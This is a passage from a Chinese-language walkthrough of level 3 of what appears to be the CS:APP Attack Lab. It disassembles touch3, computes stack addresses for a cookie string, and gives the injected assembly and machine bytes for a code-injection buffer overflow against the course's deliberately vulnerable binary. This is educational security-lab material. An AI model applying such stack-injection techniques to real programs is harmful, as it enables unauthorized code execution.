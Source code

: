 ## 第三关

和第二关不一样的地方是这里传入的参数是字符串，所以需要把 `$rdi` 寄存器设置成 `cookie` 字符串的指针，也就是 `cookie` 字符串的地址。
首先把 `cookie` 转化为 ASCII 码形式。`0x59b997fa` 对应的就是 `35 39 62 39 39 37 66 61`。

```x86asm
00000000004018fa <touch3>:
  4018fa:   53                      push   %rbx
  4018fb:   48 89 fb                mov    %rdi,%rbx
  4018fe:   c7 05 d4 2b 20 00 03    movl   $0x3,0x202bd4(%rip)        # 6044dc <vlevel>
  401905:   00 00 00
  401908:   48 89 fe                mov    %rdi,%rsi
  40190b:   8b 3d d3 2b 20 00       mov    0x202bd3(%rip),%edi        # 6044e4 <cookie>
  401911:   e8 36 ff ff ff          callq  40184c <hexmatch>
  401916:   85 c0                   test   %eax,%eax
  401918:   74 23                   je     40193d <touch3+0x43>
  40191a:   48 89 da                mov    %rbx,%rdx
  40191d:   be 38 31 40 00          mov    $0x403138,%esi
  401922:   bf 01 00 00 00          mov    $0x1,%edi
  401927:   b8 00 00 00 00          mov    $0x0,%eax
  40192c:   e8 bf f4 ff ff          callq  400df0 <__printf_chk@plt>
  401931:   bf 03 00 00 00          mov    $0x3,%edi
  401936:   e8 52 03 00 00          callq  401c8d <validate>
  40193b:   eb 21                   jmp    40195e <touch3+0x64>
  40193d:   48 89 da                mov    %rbx,%rdx
  401940:   be 60 31 40 00          mov    $0x403160,%esi
  401945:   bf 01 00 00 00          mov    $0x1,%edi
  40194a:   b8 00 00 00 00          mov    $0x0,%eax
  40194f:   e8 9c f4 ff ff          callq  400df0 <__printf_chk@plt>
  401954:   bf 03 00 00 00          mov    $0x3,%edi
  401959:   e8 f1 03 00 00          callq  401d4f <fail>
  40195e:   bf 00 00 00 00          mov    $0x0,%edi
  401963:   e8 d8 f4 ff ff          callq  400e40 <exit@plt>
```

`$rsp` 的地址在上一关已经得到了 `0x5561dc78`，返回地址应为`$rsp+0x28`（保存代码执行地址的位置），然后字符串地址应为`$rsp+0x30`。所以 `cookie` 的地址应该是 `0x5561dca8`。`touch3` 函数的地址是 `0x4018fa`，和第二关一样，我们可以写出下面的汇编代码，写入文件 `3.s`。

```
mov $0x5561dca8, %edi
pushq $0x4018fa
ret
```

同样的操作得到下面的结果：

```
3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   bf a8 dc 61 55          mov    $0x5561dca8,%edi
   5:   68 fa 18 40 00          pushq  $0x4018fa
   a:   c3                      retq
```
